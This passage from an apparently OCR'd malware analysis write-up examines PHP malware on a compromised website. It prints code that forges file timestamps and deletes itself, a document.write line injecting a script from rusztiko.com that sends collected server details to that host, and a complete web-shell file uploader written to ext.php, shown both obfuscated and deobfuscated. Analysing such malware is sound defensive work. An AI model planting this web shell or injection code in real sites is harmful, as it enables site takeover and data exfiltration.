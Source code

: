 ```
    $fp = @fopen($path, "w");
    @fwrite($fp, $line);
    @fclose($fp);

    @touch($path, $time);
    @touch(dirname(__FILE__), $dirTime);
}

unlink(__FILE__);
/*
/home7/raileann/public_html/__lazybit/cron/index.html
/home7/raileann/public_html/__lazybit/cron/index.html
/home7/raileann/public_html/__lazybit/cron/index.html
*/
?>
```

On first sight it doesn't look at all like a javascript file, however if we view it line by line we can find the following:

```
print "document.write('<script src=\"http://rusztiko.com/sh2.php?serverStr=$serverStr&req_type=add_site&document_root=$document_root&ip=$ip&domain='+window.location.hostname+'&uplUrl=$pp\"><\/script>');";
```

This effectively generates the content of the `google.php` file when viewed from a browser. It is a script that includes in the document yet another script tag that references a URL with a quite suspicious domain name. Moreover, the URL params contain the server information collected by the `google.php` file.


The next step is securing the presence of malware among the files of the web-site. The script writes the following code to the `ext.php` file in the current folder:

```
<?php error_reporting(0);@ini_set("display_errors", 0);$var= $_SERVER['PHP_SELF']."?";$form ='<form enctype="multipart/form-data" action="'.$var.'" method="POST"><input name="uploadFile" type="file"/><br/><input type="submit" value="Upload" /></form>';if (!empty($_FILES['uploadFile'])) {$self=dirname(__FILE__);move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $self.DIRECTORY_SEPARATOR.$_FILES["uploadFile"]["name"]);$time=filemtime($self);print "OK";} else {print $form;} ?>
```

When deobfuscated, it looks like this:

```
<?php error_reporting(0);
@ini_set("display_errors", 0);
$var = $_SERVER['PHP_SELF'] . "?";
$form = '<form enctype="multipart/form-data" action="' . $var . '" method="POST"><input name="uploadFile" type="file"/><br/><input type="submit" value="Upload" /></form>';
if (!empty($_FILES['uploadFile'])) {
    $self = dirname(__FILE__);
    move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $self . DIRECTORY_SEPARATOR . $_FILES["uploadFile"]["name"]);
    $time = filemtime($self);
    print "OK";
} else {
    print $form;
} ?>
```
